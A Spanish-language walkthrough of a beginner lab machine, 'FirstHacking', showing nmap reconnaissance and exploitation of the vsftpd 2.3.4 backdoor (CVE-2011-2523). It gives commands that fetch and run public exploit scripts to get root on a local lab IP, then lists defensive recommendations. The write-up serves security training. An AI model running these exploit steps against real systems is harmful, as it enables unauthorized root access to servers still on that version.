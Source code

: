 # 🖥️ **Máquina: FirstHacking**  
- **🔹 Dificultad:** Muy Fácil  
- **📌 Descripción:** Máquina de práctica enfocada en la explotación de un servicio FTP vulnerable (vsftpd 2.3.4).  
- **🎯 Objetivo:** Obtener acceso no autorizado a través de una vulnerabilidad conocida.

---

## 🚀 **Despliegue de la Máquina**

1. **Descarga y descompresión:**  
   Primero descargamos la máquina vulnerable y la descomprimimos con el comando:
   ```bash
   unzip firsthacking.zip
   ```

2. **Ejecución de la máquina:**  
   Ejecutamos el entorno con:
   ```bash
   sudo bash auto_deploy.sh firsthacking.tar
   ```

   ![](/FirstHacking/Imagenes/Maquina.png)  
   ![](/FirstHacking/Imagenes/Activar.jpeg)

3. **Verificación de conectividad:**  
   Comprobamos que la máquina esté activa con un `ping` a su IP:
   ```bash
   ping -c4 172.17.0.2
   ```

   ![](/FirstHacking/Imagenes/Ping.jpeg)

---

## 🔍 **Reconocimiento**

1. **Escaneo de puertos (Nmap):**  
   Utilizamos Nmap para identificar puertos abiertos:
   ```bash
   sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
   ```

   ![](/FirstHacking/Imagenes/Puertos.jpeg)

2. **Análisis de servicios y versiones:**  
   Luego escaneamos los puertos detectados para obtener más información sobre los servicios:
   ```bash
   nmap -sC -sV -p 21 172.17.0.2 -oN target.txt
   ```

   > ✨ *Nota:* Puedes encontrar más detalles sobre cómo automatizar y optimizar escaneos Nmap en [mis repositorios](#).

   ![](/FirstHacking/Imagenes/Servicios.jpeg)

---

## 💥 **Explotación**

### 🔸 Servicio identificado: **FTP (vsftpd 2.3.4)**  
Este servicio es conocido por tener una puerta trasera (backdoor) introducida maliciosamente en versiones comprometidas.

#### 📌 Opción 1: Usar un script de GitHub
1. Clonamos el repositorio del exploit:
   ```bash
   git clone https://github.com/nobodyatall648/CVE-2011-2523
   cd CVE-2011-2523
   ```

2. Ejecutamos el exploit:
   ```bash
   python3 vsftpd_2.3.4_exploit.py 172.17.0.2
   ```

   ![](/FirstHacking/Imagenes/Git.jpeg)  
   ![](/FirstHacking/Imagenes/Exploit.jpeg)

#### 📌 Opción 2: Usar `searchsploit` (Exploit-DB)
1. Buscar la vulnerabilidad:
   ```bash
   searchsploit vsftpd 2.3.4
   ```

2. Copiar el exploit al directorio actual:
   ```bash
   searchsploit -m unix/remote/49757.py
   ```

3. Ejecutar el script:
   ```bash
   python3 49757.py 172.17.0.2
   ```

   ![](/FirstHacking/Imagenes/Metododos.jpeg)  
   ![](/FirstHacking/Imagenes/Resultado.jpeg)

---

## ✅ **Resultado Final**

La ejecución del exploit proporciona acceso no autorizado al sistema como **usuario root** a través del servicio FTP, logrando así comprometer la máquina con éxito.

---

## 🛡️ **Recomendaciones**

- **Actualizar software vulnerable:** Evitar el uso de versiones antiguas de servicios como vsftpd. La versión 2.3.4 contiene una puerta trasera introducida maliciosamente.
- **Monitoreo de servicios expuestos:** Limitar el acceso a servicios innecesarios y configurar firewalls para reducir la superficie de ataque.
- **Auditorías periódicas:** Realizar escaneos de seguridad regulares para identificar vulnerabilidades conocidas.
- **Uso de honeypots:** En entornos controlados, se puede usar esta vulnerabilidad como señuelo educativo o de detección de intrusos.

---

## 📚 **Aprendizajes Clave**

- La herramienta **Nmap** es fundamental para el reconocimiento de servicios y detección temprana de vectores de ataque.
- Las bases de datos como **Exploit-DB** y herramientas como **Searchsploit** permiten identificar rápidamente vulnerabilidades conocidas.
- La explotación de **vsftpd 2.3.4** demuestra la importancia de la gestión de versiones y parches de seguridad.
- Usar scripts existentes requiere comprensión previa de su funcionamiento para evitar errores o mal uso.
